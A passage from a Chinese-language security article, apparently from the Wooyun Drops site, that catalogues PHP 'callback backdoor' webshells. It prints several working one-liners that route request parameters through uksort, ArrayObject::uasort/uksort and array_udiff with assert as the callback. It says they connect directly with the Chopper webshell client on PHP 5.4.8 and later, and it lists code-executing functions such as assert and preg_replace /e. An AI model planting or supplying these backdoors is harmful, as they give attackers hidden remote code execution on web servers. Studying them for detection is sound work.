 同样的道理，这个也是功能类似：

```
$e = $_REQUEST['e'];
$arr = array('test' => 1, $_REQUEST['pass'] => 2);
uksort($arr, $e);

```

再给出这两个函数，面向对象的方法：

```
// way 0
$arr = new ArrayObject(array('test', $_REQUEST['pass']));
$arr->uasort('assert');

// way 1
$arr = new ArrayObject(array('test' => 1, $_REQUEST['pass'] => 2));
$arr->uksort('assert');

```

再来两个类似的回调后门：

```
$e = $_REQUEST['e'];
$arr = array(1);
$e = $_REQUEST['e'];

$arr = array($_POST['pass']);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);

```

以上几个都是可以直接菜刀连接的一句话，但目标PHP版本在5.4.8及以上才可用。

我把上面几个类型归为：二参数回调函数（也就是回调函数的格式是需要两个参数的）

0x04 三参数回调函数
=====

有些函数需要的回调函数类型比较苛刻，回调格式需要三个参数。比如array_walk。

array_walk的第二个参数是callable类型，正常情况下它是格式是两个参数的，但在0x03中说了，两个参数的回调后门需要使用php5.4.8后的assert，在5.3就不好用了。但这个回调其实也可以接受三个参数，那就好办了：

![enter image description here](http://drops.javaweb.org/uploads/images/bb897dbe4b60aa7a0c748d5bfed55a1ec6d6b012.jpg)

php中，可以执行代码的函数：

```
1.  一个参数：assert
2.  两个参数：assert （php5.4.8+）
3.  三个参数：preg_replace /e模式

```
